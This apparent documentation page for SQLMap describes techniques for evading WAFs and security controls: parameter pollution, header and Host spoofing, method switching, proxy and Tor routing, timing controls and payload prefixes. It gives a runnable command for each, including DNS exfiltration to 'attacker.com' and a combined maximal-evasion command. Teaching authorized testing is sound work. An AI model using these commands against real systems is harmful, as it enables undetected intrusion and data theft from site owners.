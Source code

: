 ```yaml
---
title: Other Evasion Methods
description: Learn about additional evasion techniques in SQLMap to bypass security controls
---
```


# Other Evasion Methods

Beyond tamper scripts and WAF detection, SQLMap offers several additional methods to evade detection during security testing. These techniques can help bypass various security controls when used appropriately in authorized testing scenarios.

## HTTP Parameter Manipulation

### Parameter Pollution

Using multiple instances of the same parameter:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1&id=2" --param-del="&"
```

This technique can confuse some security filters that don't properly handle parameter pollution.

### Parameter Reordering

Changing the order of HTTP parameters:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="b=2&a=1&c=3" --param-del="&"
```

Some WAFs may only inspect the first few parameters or expect parameters in a specific order.

## HTTP Header Manipulation

### Custom Headers

Adding custom HTTP headers:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --headers="X-Forwarded-For: 127.0.0.1\nX-Custom-Header: Value"
```

This can bypass security controls that trust certain headers or don't inspect custom headers.

### Host Header Manipulation

Modifying the Host header:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --host="internal-system.local"
```

This can bypass security controls that rely on the Host header for validation.

## Request Method Switching

### Method Switching

Changing the HTTP method:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1" --method=PUT
```

Some security controls may only inspect GET and POST requests but not other HTTP methods.

### Method Obfuscation

Using non-standard HTTP methods:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --method=CUSTOM
```

This can sometimes bypass security controls that only check standard HTTP methods.

## Traffic Routing and Proxying

### Multiple Proxies

Routing through multiple proxies:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --proxy="http://proxy1:8080" --proxy-cred="user:pass" --proxy-file="proxies.txt"
```

The `--proxy-file` option allows you to specify a list of proxies to rotate through.

### Tor Network

Routing through the Tor network:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tor --tor-port=9050 --tor-type=SOCKS5 --check-tor
```

This routes all SQLMap traffic through the Tor network, making it harder to trace and potentially bypassing IP-based restrictions.

## Timing and Rate Controls

### Request Delays

Adding random delays between requests:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --delay=2 --time-sec=10
```

This adds a 2-second delay between requests and sets a 10-second time for time-based blind injections.

### Throttling

Limiting the number of concurrent threads:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --threads=1
```

This can help avoid triggering rate-limiting mechanisms.

## Payload Obfuscation

### Inline Comments

Using inline comments in SQL statements:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix="'/*" --suffix="*/--" --technique=B
```

This adds specific SQL comments before and after the injection payload.

### Custom Prefix and Suffix

Adding custom strings before and after the payload:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix=")" --suffix="AND(1=1"
```

This helps when the injection point is within a specific SQL context.

## Advanced Techniques

### Out-of-Band Exploitation

Using out-of-band channels for data exfiltration:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dns-domain=attacker.com
```

This uses DNS requests for data exfiltration, which may bypass controls that only monitor HTTP traffic.

### Second-Order Injection

Testing for second-order SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --second-url="http://www.example.com/page.php?id=1" --second-req="second-request.txt"
```

This tests for vulnerabilities where the injection is stored and then executed in a different location.

<Note title="Ethical and Legal Warning">
These evasion techniques should only be used in authorized security testing scenarios. Unauthorized attempts to bypass security controls are illegal and unethical.
</Note>

## Combining Evasion Techniques

For maximum effectiveness, combine multiple evasion techniques:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --random-agent --tamper=between,charencode,randomcase --delay=2 --tor --proxy="http://proxy:8080" --level=5 --risk=3
```

This comprehensive approach combines:
- Random user agent
- Multiple tamper scripts
- Request delays
- Tor routing
- Additional proxy
- Maximum test level and risk
